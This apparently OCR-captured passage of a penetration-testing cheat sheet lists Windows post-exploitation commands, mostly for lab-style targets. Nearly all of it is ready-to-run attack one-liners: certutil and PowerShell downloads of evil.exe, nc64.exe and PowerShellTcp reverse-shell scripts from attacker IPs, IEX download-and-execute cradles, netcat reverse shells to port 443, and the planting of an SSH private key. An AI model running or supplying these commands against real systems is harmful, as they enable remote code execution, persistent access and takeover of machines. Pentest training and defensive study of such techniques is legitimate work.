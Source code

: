 	GetnNetLoggedOnUser
	GetDomainUser
	GetNetLocalGroup
	GetDomainComputers
##	Other
-	windows-exploit-suggester.py	[https://github.com/AonCyberLabs/Windows-Exploit-Suggester]
-	exploit-suggester (metasploit)

###	Port Forwarding Tools
>   psexec.exe
>   Chisel.exe
>   PLINK.exe

##	Download & Uploading 

[+]	Downloading

-	scp target_username@$IP:/home/abc.txt .

-	certutil.exe -urlcache -split -f "http://192.168.49.68/evil.exe" "C:\Backup\evil.exe"
-	certutil.exe -urlcache -f "http://192.168.49.68/evil.exe" evil.exe

-	powershell -c wget http://10.10.14.21/PowerView.ps1 -OutFile PowerView.ps1
-   powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
-   powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\wget.exe')"

-	powershell -c Invoke-WebRequest -URI http://10.17.64.5/winPEASx64.exe -OutFile winPEASx64.exe
-	powershell.exe iwr -uri 192.168.49.91/nc64.exe -o C:\Users\Public\cc.exe

-   Invoke-WebRequest "http://10.10.14.21/PowerView.ps1" -OutFile PowerView.ps1

-	[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPU=="))

-	powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.110/nc64.exe -outfile nc64.exe

-	powershell.exe -Command "Invoke-WebRequest \"http://10.17.64.5:8082/Invoke-PowerShellTcp.ps1\" -OutFile Invoke-PowerShellTcp.ps1"
-	powershell -Command "Invoke-WebRequest \"http://10.17.64.5:8082/Invoke-PowerShellTcp.ps1\" -OutFile Invoke-PowerShellTcp.ps1"
-	powershell.exe "IEX(New-Object Net.WebClient).downloadString(\"http://10.17.64.5:8082/Invoke-PowerShellTcp.ps1\")"
-	powershell "IEX(New-Object Net.WebClient).downloadString(\"http://10.17.64.5:8082/Invoke-PowerShellTcp.ps1\")"

[+]	Executing W/Without downloading

-   powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
-   IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
-   IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1'); get-netcomputer
-	powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.15.110 443"
-	C:\Users\Public\cc.exe -e cmd.exe 192.168.49.91 443
